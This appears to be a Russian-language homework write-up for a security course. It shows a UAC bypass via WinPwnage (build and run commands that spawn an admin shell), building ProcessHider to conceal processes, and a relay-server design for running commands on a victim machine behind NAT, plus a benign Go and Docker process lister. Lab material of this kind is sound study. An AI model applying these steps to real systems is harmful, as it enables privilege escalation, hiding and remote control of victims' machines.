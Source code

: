 # Задача 2
Для теста программ в задаче №2 использовалась виртуальная windows 10 191206-1406

## 2.1 Решение:
Действительно, существует моножество вариантов обойти UAC, например, второй вариант [отсюда](https://github.com/rootm0s/WinPwnage#uac-bypass-techniques)

для начала нужно скомпилировать проект, сделать это можно так
```bash
pip install pyinstaller
pyinstaller --onefile main.py
```

В каталоге dist нас будет ожидать exe файл

далее запускаем его:
```bash
main --use uac --id 2 --payload c:\\windows\\system32\\cmd.exe
```
В результате открывается cmd с правами администратора без UAC

![Alt text](poc2.1.gif)

## 2.2 Решение:

Скачиваем проект [отсюда](https://github.com/kernelm0de/ProcessHider).
1. Устанавливаем набор инструментов от 2015 года, чтобы собрать проект.![Alt text](image-1.png)
2. Перенести все файлы из include в папку ProcessHider и поправить импорты в main.cpp в той же папке
![Alt text](image-3.png)
3. Открываем проект и обновляем **target platform version до 10**.
![Alt text](image-2.png)

Cобираем проект и запускаем от имени администратора/


![Alt text](poc2.2.gif)

## 2.3 Решение:

Так как атакуемая машина может находиться за NAT, то можно использовать сервер с белым ip-адресом. В таком случае мы будем общаться с машиной жертвы через сервер-посредник.

Решением является сервер, и два клиента, оба клиента подключаются к серверу, так как у него инвестный белый ip, клиент жертвы просто запускает команды через `exec.Command()`, а клиент-нападающий их отправляет.

Код программы [githab]()

# Задача 3

## 3.0 Решение:

Решением является [go-код](). Список процессов получаем от системы вызывая `exec.Command("ps", "aux")`. Результат команды - сырой текст, его нужно дополнительно форматировать.

## 3.1 Решение:

Описываем dockerfile и собираем его, например такой командой, если находимся в корне проекта

```bash 
docker build -f build/package/dockerfile -t imageName .
```

Чтобы запустить контейнер нужно дополнительно указать **--pid="host"**, чтобы увидеть процессы хоста, а не контейнера.
Например, такой командой:

```bash 
docker run --pid="host" --rm -p 8080:8080 imageName
```

Теперь, если мы зайдем на http://127.0.0.1:8080/process, то сможем увидеть список процессов хоста:

![PoC](image.png)
